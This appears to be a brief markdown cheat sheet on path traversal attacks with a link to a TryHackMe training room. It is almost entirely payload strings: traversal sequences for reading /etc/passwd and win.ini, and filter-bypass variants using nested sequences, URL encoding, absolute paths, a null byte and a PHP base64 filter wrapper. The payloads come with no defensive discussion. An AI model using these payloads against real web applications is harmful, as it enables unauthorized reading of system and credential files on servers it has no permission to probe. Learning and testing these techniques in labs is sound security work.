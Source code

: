 # Path Traversal Cheat Sheet
___
#### Common Method
```txt
../../../etc/passwd >> For linux

..\..\..\windows\win.ini >> For windows
```
#### Bypassing Defence Mechanism
```txt
Sequence block bypass >> ....//....//....//....//etc/passwd
Encoding ../ >> %2e%2e%2f
Absolute path >> /var/www/images/../../../etc/passwd
Using null byte >> ../../../etc/passwd%00.png
Using PHP wrappers >> php://filter/convert.base64-encode/resource=/etc/passwd
```
## To learn
https://tryhackme.com/r/room/filepathtraversal
